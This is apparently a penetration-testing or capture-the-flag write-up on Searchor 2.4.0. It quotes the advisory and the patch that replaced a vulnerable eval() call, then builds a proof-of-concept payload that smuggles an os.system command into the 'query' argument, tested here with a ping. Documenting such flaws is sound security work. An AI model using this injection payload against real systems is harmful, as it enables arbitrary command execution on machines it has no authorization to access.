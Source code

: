 Searchor 2.4.0

Google search term:
`"Searchor" 2.4.0 vulnerability`

<https://security.snyk.io/package/pip/searchor>

Arbitrary Code Execution in versions before 2.4.2

<https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303>

Finding info about the patch on Github...
<https://github.com/ArjunSharda/Searchor/releases/tag/v2.4.2f>
<https://github.com/ArjunSharda/Searchor/pull/130>
<https://github.com/ArjunSharda/Searchor/pull/130/files>

```python
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = eval(
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
```

url = eval() is vulnerable and was replaced with:

```python
url = Engine[engine].search(query, copy_url=copy, open_web=open)
```

## Foothold

### Exploiting eval() function in python

<http://vipulchaskar.blogspot.com/2012/10/exploiting-eval-function-in-python.html>

#### Understanding the code and exploit

I created a mock version of the vulnerable method with a sample payload to understand how the URL string was formed

The goal of this payload is  to inject a custom command into the eval method using the parameter named 'query'. This requires us to force early termination of the call to `Engine.{engine}.search('` and force the eval function to ignore the remainder of the string, `, copy_url={copy}, open_web={open})`.

An attempt was made to inject a simple command, importing the os library and pinging our attacker machine, where tcpdump was run on the tunnel interface listening for ICMP packets.

```python
def main():
    engine = "Accuweather"
    query = "'),__import__('os').system('ping -c 4 0.0.0.0')#"
    copy = True
    open = True
    url = f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
    print(url)
    # eval(url)

main() 
```
